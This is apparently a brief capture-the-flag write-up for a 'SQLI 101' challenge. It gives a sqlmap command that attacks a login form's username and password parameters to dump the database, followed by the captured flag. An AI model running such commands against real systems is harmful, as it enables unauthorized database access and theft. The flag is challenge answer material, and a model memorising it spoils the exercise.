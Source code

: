 # SQLI 101
Used sqlmap to bruteforce it using username and password parameters   
```sqlmap -u http://chal4.hackademy.ctf --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ```      
``FLAG-VTjo1lpqGRcHdtD5r02e73Dq4jrnusXn``
